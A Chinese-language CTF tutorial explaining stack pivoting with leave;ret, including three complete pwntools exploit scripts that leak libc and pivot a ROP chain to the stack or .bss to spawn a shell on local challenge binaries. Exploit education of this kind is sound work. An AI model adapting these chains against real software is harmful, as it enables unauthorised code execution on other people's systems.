

简绍
栈迁移一般用于溢出字节不够，但至少溢出0x10个字节，也就是用来覆盖rbp及返回地址，一般有两种方向：迁向原来的的栈，迁移到bss段。在学习栈迁移之前，需要了解一下一个汇编指令：leave ret，他的作用可以拆分成两部分：mov rsp rbp  pop rbp。leave ret的作用是用来清空栈的，在主函数最后都会有，但如果用两次会有怎样的效果呢


 

 借用了这篇博主的图片，两次leave ret 会返回到我们所控制的rbp的位置，这里注意，是rbp的位置是我们要覆盖的返回地址，接下来接三道例题讲解栈迁移不同的利用方式

### 例题

可泄露出位置的栈迁移
IDA分析，我们可以看到read函数存在栈溢出，但只能溢出0x10（16）个字节，正好可以覆盖rbp和返回地址，这样我们直接想到栈迁移。第二个printf函数会把buf的位置打印出来，而我们要返回的则是buf后的部分，也就是v2，我们可以用buf的地址+8就是v2的地址



 我们把栈迁到v2之后去执行什么呢，这也是栈迁移的重点，我们需要把垃圾数据改成有用的数据，这样我们迁移之后可以去执行我们的rop链，这道题是没有后门的，我们需要运用两次栈迁移，先用libc得到system("\bin\sh")之后去执行

exp:

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn1")
elf=ELF("./pwn1")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def bug():
        gdb.attach(p)
        pause()
rdi=0x0000000000401333
vuln=0x4011FB
leave_ret=0x4012AA
p.recvuntil("your name:")   
pay1=b'a'*8
#bug()
p.send(pay1)
p.recvuntil("0x")
rbp1=int(p.recv(12),16)+8
print(hex(rbp1))
p.recvuntil("more infomation plz:")
pay  =(b'a'*8+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(vuln)).ljust(0x50,b'\x00')

#前8个a是因为ret会往后迁一位，ljust是补齐0x50个字节不够的用0x00来补充
pay +=p64(rbp1)+p64(leave_ret)
#bug()
p.send(pay)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-libc.sym['puts']
print(hex(libc_base))
system=libc_base+libc.sym['system']
bin_sh=libc_base+libc.search(b"/bin/sh\x00").__next__()
p.recvuntil("your name:")   
pay2=b'a'*8
p.send(pay2)
p.recvuntil("0x")
rbp2=int(p.recv(12),16)+8
print(hex(rbp2))
p.recvuntil("more infomation plz:")
pay  =(b'a'*8+p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)).ljust(0x50,b'\x00')
pay +=p64(rbp2)+p64(leave_ret)
bug()
p.send(pay)
p.interactive()    
```


 打通本地


###  迁到bss段的栈迁移

IDA分析，函数很简单，第二次栈溢出也只能溢出0x10个字节，这是例题，比较明显，一般我们需要结合调试去看我们的rop链是否能完全读入，在考虑用不用栈迁移


 我们发现s是bss变量，结合第一题，我们在第一次读入有用的rop链，第二次栈迁移到bss段就可以去实现，这道题同样是没有后门的，同样需要利用两次栈迁移


 附上脚本：

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn2")
elf=ELF("./pwn2")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def bug():
         gdb.attach(p)
         pause()
rdi=0x00000000004012a3
main=0x401210
bss=0x406060
leave_ret=0x40120E
p.recvuntil("hello")
pay1=p64(rdi)+p64(elf.got['read'])+p64(elf.plt['puts'])+p64(main)
p.send(pay1)
p.recvuntil("say?")
pay2=b'a'*(0x60)+p64(bss)+p64(leave_ret)
bug()
p.send(pay2) 
```


p.interactive()

 但我们会发现这里会卡住，原因是因为我们读入的地方bss-8，具体原因是因为ret会往下推一个栈

 附上最终脚本：

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn2")
elf=ELF("./pwn2")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def bug():
         gdb.attach(p)
         pause()
rdi=0x00000000004012a3
main=0x401210
bss=0x406060-8
leave_ret=0x40120E
p.recvuntil("hello")
pay1=p64(rdi)+p64(elf.got['read'])+p64(elf.plt['puts'])+p64(main)
p.send(pay1)
p.recvuntil("say?")
pay2=b'a'*(0x60)+p64(bss)+p64(leave_ret)
bug()
p.send(pay2)  
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-libc.sym['read']
print(hex(libc_base))
system=libc_base+libc.sym['system']
bin_sh=libc_base+libc.search(b"/bin/sh\x00").__next__()
p.recvuntil("hello")
pay3=p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)
p.send(pay3)
p.recvuntil("say?")
pay  =(p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)).ljust(0x60,b'\x00')
pay +=p64(0x406008-8)+p64(leave_ret)
#bug()
p.send(pay)
p.interactive()
```


 打通

###  利用read函数的栈溢出

我感觉这一题才是对栈迁移原理的运用最全面的，前边两种方法都有局限性，这种方法局限性不是很大，是一种全新的利用方式

IDA分析，这次前面没有地址的泄露，也没有读入到bss段，那该怎么办呢


 讲一下read函数，这是read函数的汇编代码


 这个lea汇编指令就是把rbp加上buf的值赋给了rax，第三行再把rax的值赋给rsi作为read函数读入位置的参数，而buf固定为0x50，所以确定读入位置由rbp决定，那我们可以通过pop rbp来控制rbp更改读入位置。

这道题需要利用三次迁移

exp:

``` python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn3")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf=ELF("./pwn3")
def bug():
          gdb.attach(p)
          pause()
bss=0x404020+0x700
read=0x4011FF
rdi=0x00000000004012b3
rbp=0x000000000040115d
leave_ret=0x401227
vuln=0x4011DB        
p.recvuntil("just chat with me:")
pay1=b'a'*(0x50)+p64(bss+0x50)+p64(read)

#迁移到bss段，+0x50是因为buf=-0x50
bug()
p.send(pay1)
pause()
pay2 =(p64(rdi)+p64(elf.got['read'])+p64(elf.plt['puts'])+p64(rbp)+p64(bss+0x300+0x50)+p64(read)).ljust(0x50,b'\x00')
pay2+=p64(bss-8)+p64(leave_ret)     

#第二次利用read函数，迁移到bss+0x300的位置
p.send(pay2)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-libc.sym['read']
print(hex(libc_base))
system=libc_base+libc.sym['system']
bin_sh=libc_base+libc.search(b"/bin/sh\x00").__next__()
pay3 =(b'a'*8+p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)).ljust(0x50,b'\x00')

#再次迁移执行system("\bin\sh")
pay3+=p64(bss+0x300)+p64(leave_ret)
pause()
p.send(pay3)

p.interactive()  
```

